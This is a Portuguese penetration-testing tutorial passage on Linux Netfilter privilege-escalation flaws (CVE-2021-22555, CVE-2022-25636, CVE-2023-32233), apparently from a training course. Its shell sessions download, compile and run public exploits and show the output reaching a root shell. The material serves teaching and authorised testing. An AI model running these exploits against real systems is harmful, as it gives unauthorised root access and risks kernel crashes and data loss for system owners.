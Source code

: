 **Netfilter** é um módulo do kernel Linux que fornece funcionalidades para filtragem de pacotes, tradução de endereços de rede e outras ferramentas de firewall. Ele controla o tráfego de rede manipulando pacotes com base em regras definidas.

Também é conhecido como uma camada de software no kernel Linux, e atua ao interceptar e manipular pacotes de rede, com o auxílio de módulos como `iptables` e `arptables`, que funcionam como mecanismos de ação no sistema de gancho da pilha de protocolos IPv4 e IPv6.

Este módulo do kernel tem três funções principais:

1. Desfragmentação de pacotes
2. Rastreamento de conexão
3. Tradução de endereços de rede (NAT)

Quando o módulo é ativado, todos os pacotes IP são verificados pelo `Netfilter`antes de serem encaminhados para o aplicativo de destino do próprio sistema ou remoto.

Em 2021 ( [CVE-2021-22555](https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555) ), 2022 ( [CVE-2022-1015](https://github.com/pqlx/CVE-2022-1015) ), e também em 2023 ( [CVE-2023-32233](https://github.com/Liuk3r/CVE-2023-32233) ), várias vulnerabilidades foram encontradas que podem levar à escalada de privilégios.

Muitas empresas utilizam distribuições Linux pré-configuradas adaptadas aos seus aplicativos, criando uma "base dinâmica" difícil de substituir.

Adaptar o sistema ao aplicativo ou vice-versa pode ser demorado e trabalhoso, levando muitas empresas a manter distribuições Linux mais antigas em produção. Mesmo com o uso de máquinas virtuais ou contêineres como Docker, que isolam o aplicativo do sistema host, há formas de contornar essa isolação, já que os contêineres são construídos sobre um kernel específico.

#### CVE-2021-22555
Versões vulneráveis ​​do kernel: 2.6 - 5.11

```shell-session
cry0l1t3@ubuntu:~$ uname -r

5.10.5-051005-generic
```

```shell-session
cry0l1t3@ubuntu:~$ wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
cry0l1t3@ubuntu:~$ gcc -m32 -static exploit.c -o exploit
cry0l1t3@ubuntu:~$ ./exploit

[+] Linux Privilege Escalation by theflow@ - 2021

[+] STAGE 0: Initialization
[*] Setting up namespace sandbox...
[*] Initializing sockets and message queues...

[+] STAGE 1: Memory corruption
[*] Spraying primary messages...
[*] Spraying secondary messages...
[*] Creating holes in primary messages...
[*] Triggering out-of-bounds write...
[*] Searching for corrupted primary message...
[+] fake_idx: fff
[+] real_idx: fdf

...SNIP...

root@ubuntu:/home/cry0l1t3# id

uid=0(root) gid=0(root) groups=0(root)
```

#### CVE-2022-25636

Uma vulnerabilidade recente é [CVE-2022-25636](https://www.cvedetails.com/cve/CVE-2022-25636/) e afeta o kernel Linux 5.4 a 5.6.10. Isso é `net/netfilter/nf_dup_netdev.c`, que pode conceder privilégios de root a usuários locais devido à gravação fora dos limites do heap. `Nick Gregory` escreveu um [artigo](https://nickgregory.me/post/2022/03/12/cve-2022-25636/) muito detalhado sobre como ele descobriu essa vulnerabilidade.[](https://nickgregory.me/post/2022/03/12/cve-2022-25636/)

```shell-session
cry0l1t3@ubuntu:~$ uname -r

5.13.0-051300-generic
```

No entanto, precisamos ter cuidado com esse exploit, pois ele pode corromper o kernel e será necessária uma reinicialização para acessar novamente o servidor.

```shell-session
cry0l1t3@ubuntu:~$ git clone https://github.com/Bonfee/CVE-2022-25636.git
cry0l1t3@ubuntu:~$ cd CVE-2022-25636
cry0l1t3@ubuntu:~$ make
cry0l1t3@ubuntu:~$ ./exploit

[*] STEP 1: Leak child and parent net_device
[+] parent net_device ptr: 0xffff991285dc0000
[+] child  net_device ptr: 0xffff99128e5a9000

[*] STEP 2: Spray kmalloc-192, overwrite msg_msg.security ptr and free net_device
[+] net_device struct freed

[*] STEP 3: Spray kmalloc-4k using setxattr + FUSE to realloc net_device
[+] obtained net_device struct

[*] STEP 4: Leak kaslr
[*] kaslr leak: 0xffffffff823093c0
[*] kaslr base: 0xffffffff80ffefa0

[*] STEP 5: Release setxattrs, free net_device, and realloc it again
[+] obtained net_device struct

[*] STEP 6: rop :)

# id

uid=0(root) gid=0(root) groups=0(root)
```

#### CVE-2023-32233
Esta vulnerabilidade explora o chamado `anonymous sets`in `nf_tables`usando a `Use-After-Free`vulnerabilidade no Kernel Linux até a versão `6.3.1`.

Estes `nf_tables`são espaços de trabalho temporários para processar solicitações em lote e, uma vez que o processamento é feito, esses conjuntos anônimos devem ser limpos ( `Use-After-Free`) para que não possam mais ser usados. Devido a um erro no código, esses conjuntos anônimos não estão sendo manipulados corretamente e ainda podem ser acessados ​​e modificados pelo programa.

A exploração é feita manipulando o sistema para usar os conjuntos anônimos `cleared out` para interagir com a memória do kernel. Ao fazer isso, podemos potencialmente ganhar `root` privilégios.

#### Prova de conceito
```shell-session
cry0l1t3@ubuntu:~$ git clone https://github.com/Liuk3r/CVE-2023-32233
cry0l1t3@ubuntu:~$ cd CVE-2023-32233
cry0l1t3@ubuntu:~/CVE-2023-32233$ gcc -Wall -o exploit exploit.c -lmnl -lnftnl
```

#### Exploração
```shell-session
cry0l1t3@ubuntu:~/CVE-2023-32233$ ./exploit

[*] Netfilter UAF exploit

Using profile:
========
1                   race_set_slab                   # {0,1}
1572                race_set_elem_count             # k
4000                initial_sleep                   # ms
100                 race_lead_sleep                 # ms
600                 race_lag_sleep                  # ms
100                 reuse_sleep                     # ms
39d240              free_percpu                     # hex
2a8b900             modprobe_path                   # hex
23700               nft_counter_destroy             # hex
347a0               nft_counter_ops                 # hex
a                   nft_counter_destroy_call_offset # hex
ffffffff            nft_counter_destroy_call_mask   # hex
e8e58948            nft_counter_destroy_call_check  # hex
========

[*] Checking for available CPUs...
[*] sched_getaffinity() => 0 2
[*] Reserved CPU 0 for PWN Worker
[*] Started cpu_spinning_loop() on CPU 1
[*] Started cpu_spinning_loop() on CPU 2
[*] Started cpu_spinning_loop() on CPU 3
[*] Creating "/tmp/modprobe"...
[*] Creating "/tmp/trigger"...
[*] Updating setgroups...
[*] Updating uid_map...
[*] Updating gid_map...
[*] Signaling PWN Worker...
[*] Waiting for PWN Worker...

...SNIP...

[*] You've Got ROOT:-)

# id

uid=0(root) gid=0(root) groups=0(root)
```

Tenha em mente que esses exploits podem ser muito instáveis ​​e podem danificar o sistema.






































